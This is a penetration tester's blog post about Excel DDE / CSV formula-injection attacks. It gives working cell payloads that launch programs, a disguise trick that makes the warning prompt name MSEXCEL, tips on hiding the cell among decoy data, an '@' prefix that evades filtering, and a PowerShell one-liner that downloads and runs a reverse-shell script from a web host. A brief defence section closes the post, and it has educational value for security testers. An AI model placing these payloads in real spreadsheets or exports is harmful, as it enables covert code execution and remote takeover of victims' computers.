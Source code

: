 I'm a huge fan of living off the land when it comes to hacking and working my way through a network. There are few things that feel better than taking a perfectly reasonable tool and flipping it inside out for my own benefit.

Recently, I was working on a penetration test for a web application, and I found a file upload function that allowed users to upload and download Excel files. The first thing that came across my mind - macros. But when I tried to upload a macro-enabled xlsm file, I was denied.

So I started hunting for other ways to exploit within file uploads. I knew about weaponized PDFs and other run-of-the-mill methods, but those seemed boring, and I was trying to be a little more original. I thought to myself, "It would be Excel-ent to be able to do this without macros..." 

        (•_•)               ( •_•)>⌐■-■            (⌐■_■)

Like most professionals, I realized I knew nothing and went to Google for help. I searched for how to load a payload into an excel without macros, expecting nothing, and was surprised to find my new favorite “feature” (keep reading) - Dynamic Data Exchange.
# Dynamic Data What Now?
According to Wikipedia, Dynamic Data Exchange (DDE) was first introduced in 1987 as a method to share data between applications in such as way that if it was updated in one, it would be updated in the other. Sounds great right? Well as it turns out, application and network security practices were not as important in 1987 as they are today - and that's saying something.

Microsoft implements DDE within its Office suite of applications to allow the transfer of data in a variety of ways. As a matter of fact, it’s still documented on microsoft.com as a feature included with Office ["for one-time data transfers and for continuous exchanges in which applications send updates to one another as new data becomes available."](https://docs.microsoft.com/en-us/windows/desktop/dataxchg/about-dynamic-data-exchange)

The basic idea is that you can have a spreadsheet or document that subscribes to an outside data source and automatically updates when changes occur. In theory, that sounds very helpful and is probably very useful in financial or medical spaces. However, there is a dark side to this force.
# Living Off the Land with DDE
As it turns out, DDE commands can execute just about any program - not to sugar coat it too much. Worse still, they can mask what programs they are executing. To a user opening an Excel document, nothing really looks out of the ordinary.

Even with the warning messages that Microsoft now forces them to display before they run, a typical user will probably do what they always do and click right on through. More than likely they downloaded the document from a trusted source.

What might be the worst part about this whole attack vector, though, is that this feature is built into every modern version of Office. Virtually every desktop computer running in an office can be exploited by DDE, and if it's done correctly, the user probably won't even know.
# So How Do You Do It?
As I mentioned above, DDE is a feature built into Microsoft Office, meaning it can be used within Word, Excel, and other applications. This article will focus on Excel, but vectors have been discovered for using the same principles in the other Office programs like Word and Outlook as well.

Starting off in the most basic and benign way possible, I will show how to use a DDE payload in Excel to open a calculator.
<figure style="text-align:center; margin:1em">
<img src="/resources/content/images/2018/12/calc-cmd.gif" alt="DDE-Calc">
<figcaption style="font-size:small">
 =CMD|'/c calc.exe'!'a1'
</figcaption>
</figure>

# Let's Break This Down
When Excel comes across a '=' it knows to evaluate the contents of the cell. Normally, this is used to add something or run a built-in Excel function, but DDE allows a user to run any executable. One such function that is allowed by default is cmd. By using cmd, the following arguments take the same set of options as a standard Windows command prompt. I used '/c' in this example to run the program called and then terminate the promp, but you could use ‘/k’ to leave the shell running if you wanted to. After that, it's just a matter of picking a program like calc.exe and finishing the DDE syntax for Excel.
# Let's Make This Sneakier
So that payload will let you run just about anything installed on the computer (actually…really anything), but a warning will pop up asking the user if they want to run CMD.EXE. That's not exactly the friendliest warning - even though people just say ok to pop-ups anyway. But we can do better.
<figure style="text-align:center; margin:1em">
<img src="/resources/content/images/2018/12/dde-calc-obfuscated.gif" alt="DDE-Calc">
<figcaption style="font-size:small">
=MSEXCEL|'..\..\..\..\Windows\system32\cmd.exe /c calc.exe'!'a1'
</figcaption>
</figure>

This doesn't do anything different, except now the warning message asks to run MSEXCEL.EXE. Well, of course the user wants to run MSEXCEL.EXE - that's what they clicked on in the first place. The rest of the payload just brings the exploit back to using cmd.exe with the same options as before, and a new calculator is born!

In addition, feel free to hide the cell in the spreadsheet. When these payloads execute, they tend to leave behind a reference error. A hidden field (maybe in the 1000th row) won't draw as much attention if a spreadsheet is loaded with a bunch of decoy data.
# Let's Make This Scarier
So now we basically have a well-hidden payload that opens a calculator...yay. But if you remember, DDE can be used to run any command. In the spirit of continuing to live off the land, let's try PowerShell.

<figure style="text-align:center; margin:1em">
<img src="/resources/content/images/2018/12/dde-shell-obfuscated.gif">
<figcaption style="font-size:small">
=MSEXCEL|'..\..\..\..\Windows\system32\cmd.exe /c powershell.exe $e=(New-Object System.Net.WebClient).DownloadString(\"http://127.0.0.1/revshell.ps1\");powershell $e'!'a1'
</figcaption>
</figure>


Nice. A one-line PowerShell script to download what appears to be a reverse shell and execute it. This particular script will open a PowerShell window, but adding '-windowstyle hidden' should take care of that, and frankly the damage is already done.  Plus, we still haven't used anything that Microsoft didn’t give us for free (er…“free”). That isn't to say we couldn't. We can download anything and run it.

<figure style="text-align:center; margin:1em">
<img src="/resources/content/images/2018/12/dde-chrome-obfuscated.gif">
<figcaption style="font-size:small">
=MSEXCEL|'..\..\..\..\Windows\system32\cmd.exe /c "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe"'!'a1'
</figcaption>
</figure>

# Let's Make This More Flexible
In some cases, the payloads above won't work. For example, I once tried to use DDE in a CSV export function (by the way...this works for any type of file that can be opened in Excel) that took user input and sent it to a file that can be saved to a user's machine. I saved the payload into the application, but when I downloaded the CSV, the '=' was removed. It looked like game over, but guess what.

What?

It wasn’t.
 
<figure style="text-align:center; margin:1em">
<img src="/resources/content/images/2018/12/dde-calc-with-at-sign.gif">
<figcaption style="font-size:small">
@SUM(cmd|'/c calc.exe'!a1)
</figcaption>
</figure>

Turns out, the '@' sign is a valid evaluation prefix as well. The same rules apply as all the previous payloads. The initial CMD can be replaced by MSEXCEL, and feel free to go beyond the dreaded calculator.
# Defend Yourselves
The best way to defend against malicious DDE payloads is to limit the types of files that can be uploaded to only the most necessary for your workflow. If you don't need Excel-style files, don't allow them - even if macros are disabled.

Additionally, applications that export user-defined fields to Excel-friendly files should not allow DDE payloads as input. This means filtering '=' and '@' for sure, but really anything that falls outside the scope of the application's requirements.  If you NEED to use ‘=’ and ‘@’ at the beginning of a text field I suppose you can add a single quote to the front of the value when it’s exported.  Doing so will keep Office from evaluating what comes next.  But you probably don’t NEED them anyway – unless you are promoting a twitter handle (say for example, [@_hansonet_](https://twitter.com/_hansonet_)).
# Final Notes
The most surprising thing about this particular security issue is that I had never heard of it before. Between classes, conversations, and conventions, I had never heard anyone even mention what I believe is a fairly effective, and dangerous security hole. Apart from a couple of very recent blog posts, there wasn't much to go off of, but a lot to be gained by looking into DDE.

DDE is a feature, not likely to go away any time soon. At the time of this writing, Microsoft has disabled automatic execution and presents a warning prompt, but how often does depending on user work as an effective defense? The only real defense is to limit file uploads, inspect file content, and filter user input.  Enjoy, and leave a comment if you’ve had any personal success with this!
